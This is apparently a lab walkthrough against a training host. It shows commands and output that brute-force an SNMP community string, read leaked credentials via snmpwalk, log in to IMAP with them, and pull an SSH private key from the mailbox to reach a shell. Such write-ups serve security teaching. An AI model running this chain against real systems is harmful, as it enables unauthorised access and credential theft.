```
1022/udp open|filtered exp2
```
2. Since connecting to both POP3/IMAP needs valid credentials, let's first enumerate the SNMP service:
   - Guessing community string: found `backup`
    ```
    $ onesixtyone -c ~/SecLists/Discovery/SNMP/snmp.txt 10.129.46.117
    Scanning 1 hosts, 3219 communities
    10.129.46.117 [backup] Linux NIXHARD 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64
    ```
   - Use snmpwalk to query OIDs with their information: found `tom:NMds732Js2761"` 
    ```
    $ snmpwalk -v2c -c backup 10.129.46.117
    ...
    iso.3.6.1.2.1.25.1.7.1.2.1.2.6.66.65.67.75.85.80 = STRING: "/opt/tom-recovery.sh"
    iso.3.6.1.2.1.25.1.7.1.2.1.3.6.66.65.67.75.85.80 = STRING: "tom NMds732Js2761"
    ...
    ```
3. With `tom:NMds732Js2761"` log in to the IMAP service:
```
$ openssl s_client -connect 10.129.46.117:imaps
Connecting to 10.129.46.117
...
1 LOGIN tom NMds732Js2761
1 OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SNIPPET=FUZZY PREVIEW=FUZZY LITERAL+ NOTIFY SPECIAL-USE] Logged in
1 LIST "" *
* LIST (\HasNoChildren) "." Notes
* LIST (\HasNoChildren) "." Meetings
* LIST (\HasNoChildren \UnMarked) "." Important
* LIST (\HasNoChildren) "." INBOX
1 OK List completed (0.010 + 0.000 + 0.009 secs).
1 SELECT INBOX
* FLAGS (\Answered \Flagged \Deleted \Seen \Draft)
* OK [PERMANENTFLAGS (\Answered \Flagged \Deleted \Seen \Draft \*)] Flags permitted.
* 1 EXISTS
* 0 RECENT
* OK [UIDVALIDITY 1636509064] UIDs valid
* OK [UIDNEXT 2] Predicted next UID
1 OK [READ-WRITE] Select completed (0.006 + 0.000 + 0.005 secs).
1 FETCH 1 all
* 1 FETCH (FLAGS (\Seen) INTERNALDATE "10-Nov-2021 01:44:26 +0000" RFC822.SIZE 3661 ENVELOPE ("Wed, 10 Nov 2010 14:21:26 +0200" "KEY" ((NIL NIL "MISSING_MAILBOX" "MISSING_DOMAIN")) ((NIL NIL "MISSING_MAILBOX" "MISSING_DOMAIN")) ((NIL NIL "MISSING_MAILBOX" "MISSING_DOMAIN")) ((NIL NIL "tom" "inlanefreight.htb")) NIL NIL NIL NIL))
1 OK Fetch completed (0.006 + 0.000 + 0.005 secs).
1 FETCH 1 BODY[TEXT]
* 1 FETCH (BODY[TEXT] {3430}
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEA9snuYvJaB/QOnkaAs92nyBKypu73HMxyU9XWTS+UBbY3lVFH0t+F
...
-----END OPENSSH PRIVATE KEY-----
)
1 OK Fetch completed (0.001 + 0.000 secs).
```
4. Save the SSH key to `id_rsa` and connect to the target using SSH:
```
$ sudo chmod 600 id_rsa
$ ssh -i id_rsa tom@<ip>
```